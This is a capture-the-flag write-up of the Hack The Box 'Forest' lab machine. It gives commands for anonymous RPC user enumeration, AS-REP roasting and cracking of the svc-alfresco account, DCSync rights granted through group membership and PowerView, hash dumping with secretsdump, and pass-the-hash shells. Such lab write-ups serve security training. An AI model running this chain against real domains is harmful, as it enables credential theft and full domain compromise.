 # Forest

### Reconnaissance

- port 88 kerberos
- port 135 RPC
- port 139 NetBIOS
- port 389 LDAP
- port 445 SMB FQDN: FOREST.htb.local
- port 464 kpasswd5?
- port 593 RPC
- port 636 LDAPS? (tcpwrapped)
- port 3268 LDAP
- port 3269 LDAPS? (tcpwrapped)
- port 5985 HTTP Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
- port 9389 .Net message framing
- port 47001 HTTP Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
- port 49664 RPC
- port 49665 RPC
- port 49666 RPC
- port 49667 RPC
- port 49671 RPC
- port 49676 RPC over HTTP 1.0
- port 49676 RPC
- port 49677 RPC
- port 49682 RPC
- port 49701 RPC

**SMB**

Listing shares with `smbclient -L -N \\10.10.10.161` shows that anonymous SMB access is enabled even though
no shares are listed. This also gives the domain: `FQDN: FOREST.htb.local`

We can use `rpcclient -U "" 10.10.10.161 -N` to connect with an anonymous session and use 
`rpcclient$> enumdomusers` to enumerate the domain users:

```
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[DefaultAccount] rid:[0x1f7]
user:[$331000-VK4ADACQNUCA] rid:[0x463]
user:[SM_2c8eef0a09b545acb] rid:[0x464]
user:[SM_ca8c2ed5bdab4dc9b] rid:[0x465]
user:[SM_75a538d3025e4db9a] rid:[0x466]
user:[SM_681f53d4942840e18] rid:[0x467]
user:[SM_1b41c9286325456bb] rid:[0x468]
user:[SM_9b69f1b9d2cc45549] rid:[0x469]
user:[SM_7c96b981967141ebb] rid:[0x46a]
user:[SM_c75ee099d0a64c91b] rid:[0x46b]
user:[SM_1ffab36a2f5f479cb] rid:[0x46c]
user:[HealthMailboxc3d7722] rid:[0x46e]
user:[HealthMailboxfc9daad] rid:[0x46f]
user:[HealthMailboxc0a90c9] rid:[0x470]
user:[HealthMailbox670628e] rid:[0x471]
user:[HealthMailbox968e74d] rid:[0x472]
user:[HealthMailbox6ded678] rid:[0x473]
user:[HealthMailbox83d6781] rid:[0x474]
user:[HealthMailboxfd87238] rid:[0x475]
user:[HealthMailboxb01ac64] rid:[0x476]
user:[HealthMailbox7108a4e] rid:[0x477]
user:[HealthMailbox0659cc1] rid:[0x478]
user:[sebastien] rid:[0x479]
user:[lucinda] rid:[0x47a]
user:[svc-alfresco] rid:[0x47b]
user:[andy] rid:[0x47e]
user:[mark] rid:[0x47f]
user:[santi] rid:[0x480]
```

Query user info for svc-alfresco with `rpcclient$> queryuser 0x47b`

```
        User Name   :   svc-alfresco
        Full Name   :   svc-alfresco
        Home Drive  :
        Dir Drive   :
        Profile Path:
        Logon Script:
        Description :
        Workstations:
        Comment     :
        Remote Dial :
        Logon Time               :      Mon, 23 Sep 2019 12:09:48 IST
        Logoff Time              :      Thu, 01 Jan 1970 01:00:00 IST
        Kickoff Time             :      Thu, 01 Jan 1970 01:00:00 IST
        Password last set Time   :      Sat, 09 Nov 2024 13:23:13 GMT
        Password can change Time :      Sun, 10 Nov 2024 13:23:13 GMT
        Password must change Time:      Thu, 14 Sep 30828 03:48:05 IST
        unknown_2[0..31]...
        user_rid :      0x47b
        group_rid:      0x201
        acb_info :      0x00010210
        fields_present: 0x00ffffff
        logon_divs:     168
        bad_password_count:     0x00000001
        logon_count:    0x00000006
        padding1[0..7]...
        logon_hrs[0..21]...
```

**LDAP**

We can also use `ldapsearch` to enumerate domain objects with ldap queries

`ldapsearch -H ldap://10.10.10.161:389 -x -b "dc=htb,dc=local"`

**User**

Googling svc-alfresco shows documentation for Alfresco Process Services. In the Authentication section for
Kerberos and Active Directory we can see that it requires the service user to not require Kerberos 
preauthentication. This means the `svc-alfresco` user is vulnerable to ASREPRoasting and we can potentially 
crack the password by requesting a TGT

### Foothold

Use Impacket's GetNPUsers to request a TGT and crack the hash to obtain the password for svc-alfresco

Request a TGT:

`impacket-GetNPUsers htb.local/svc-alfresco -dc-ip 10.10.10.161 -no-pass`

Crack it with john to obtain svc-alfresco's password:

`john hash.txt -w=rockyou.txt`

We can now use Evil-WinRM to get RCE on the target as svc-alfresco

### Privilege Escalation

**Method 1**

Abuse GenericAll privilege of Account Operators over Exchange Windows Permissions group to add a user and 
grant that user DCSync permissions

Add user to the group:

```
net user test Password123 /add /domain
net group "Exchange Windows Permissions" test /add
# allows remote access using wmiexec or psexec
net localgroup "Remote Management Users" test /add
```

Give our user DCSync privileges using PowerView:

```
$pass = ConvertTo-SecureString "Password123" -AsPlain -Force
$cred = New-Object System.Management.Automation.PsCredential("htb\test", $pass)
Add-ObjectACL -PrincipalIdentity test -Credential $cred -Rights DCSync
```

We can now use impacket-secretsdump to dump NTLM hashes for all Domain users

`impacket-secretsdump test@10.10.10.161`

Use psexec or wmiexec to get RCE as System or Administrator

`impacket-psexec Administrator@10.10.10.161 -hashes <NTLM hash>`

![psexec](./img/psexec_system.png)

`impacket-wmiexec Administrator@10.10.10.161 -hashes <NTLM hash>`

![wmiexec](./img/wmiexec_admin.png)

**Method 2**

TODO: add method from here https://blog.cyberadvisors.com/technical-blog/blog/account-operators-privilege-escalation

**Method 3**

TODO: add bloodhound method using PowerView for user creation isntead of net user
